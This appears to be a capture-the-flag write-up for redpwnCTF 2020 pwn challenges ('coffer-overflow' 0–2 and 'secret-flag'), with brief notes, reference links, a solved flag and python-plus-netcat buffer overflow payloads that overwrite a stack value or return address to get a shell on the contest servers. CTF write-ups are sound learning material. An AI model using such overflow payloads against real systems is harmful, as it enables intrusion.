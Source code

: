 # pwn/coffer-overflow-0

[coffer-overflow-0.c](coffer-overflow-0.c)
[coffer-overflow-0](coffer-overflow-0)

```
Overflow input with more than 16 A will do
```

# pwn/coffer-overflow-1

[coffer-overflow-1.c](coffer-overflow-1.c)
[coffer-overflow-1](coffer-overflow-1)

References:

[JohnHammond](https://www.youtube.com/watch?v=yH8kzOkA_vw) |
[Radare2 Basics](https://radare.gitbooks.io/radare2book/debugger/getting_started.html) |
[Radare2 Input from stdin](https://reverseengineering.stackexchange.com/questions/21098/how-do-i-type-in-hex-input-into-radare2-debug-mode)

```
payload:
(python -c 'print("A"*24 + "\xbe\xba\xfe\xca")'; cat) | nc 2020.redpwnc.tf 31255

cat is needed in our payload because we need to capture shell. Watch video for more detail info
```

# pwn/coffer-overflow-2

References:

[Rardare2](https://gist.github.com/williballenthin/6857590dab3e2a6559d7)
[Address override](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)
[Stack frame](https://www.youtube.com/watch?v=75gBFiFtAb8)

```
address of binFunction 0x004006e6
need to override rbp base pointer

error after 23rd char

payload:
(python -c 'print("A"*24 + "\xe6\x06\x40\x00\x00")'; cat) | nc 2020.redpwnc.tf 31908

flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

## pwn/secret-flag

```
AAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAA


address that leaks data?
0x55ee991d5000

python -c 'print("A"*20 + "\x00\x50\x1d\x99\xee\x55")'
```
